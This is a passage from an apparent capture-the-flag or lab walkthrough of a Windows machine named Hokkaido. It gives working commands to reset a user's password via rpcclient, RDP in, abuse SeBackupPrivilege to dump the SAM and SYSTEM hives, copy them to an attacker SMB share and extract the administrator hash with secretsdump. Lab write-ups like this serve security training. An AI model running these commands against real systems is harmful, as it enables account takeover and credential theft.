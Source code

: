 Apparently this means we can change certain user's passwords, inclduing `molly.smith` who we've already discovered is able to RDP into the machine. As with **Nagoya**, this is done with rpcclient. We log in with `hazel.green`, and run: `setuserinfo2 MOLLY.SMITH 23 'pizzaparty123'` to change her password. 

At that point, we can rdp in with: `xfreerdp /u:molly.smith /p:pizzaparty123 /v:192.168.157.40 /drive:/home/pop/Desktop/server,kali`. Crucially, when we log in using the GUI, we can run either powershell or cmd as an administrator, simply by inputting molly.smith's credentials again. This can help us run more things. That said, we try to download a couple of scripts and Windows Defender immediately removes them, so we might need to get more creative. When we open powershell or the command prompt as administrator, we can run `whoami /priv` and get more privileges than we do if we open without being administrator. 

![Hokkaido10.png](/assets/images/Hokkaido/Hokkaido10.png){: .responsive-image}

A big one here is `SeBackupPrivilege`. We run create a `C:\Temp` directory and run`reg save hklm\sam c:\Temp\sam` and `reg save hklm\system c:\Temp\system` and then copy them back to our own machine. I did this using `impacket-smbserver` like so:
From kali:
- `sudo impacket-smbserver -smb2support share . -username "pop" -password "party1"`
From the target: 
- `net use \\$kaliIP\share /user:pop party1`
- `copy C:\Temp\SAM \\$kaliIP\share`
- `copy C:\Temp\System \\$kaliIP\share`

After that, we can run secretsdump to grab the hash of the administrator user. The full command is:`impacket-secretsdump -system System -sam SAM local`
![Hokkaido11.png](/assets/images/Hokkaido/Hokkaido11.png){: .responsive-image}
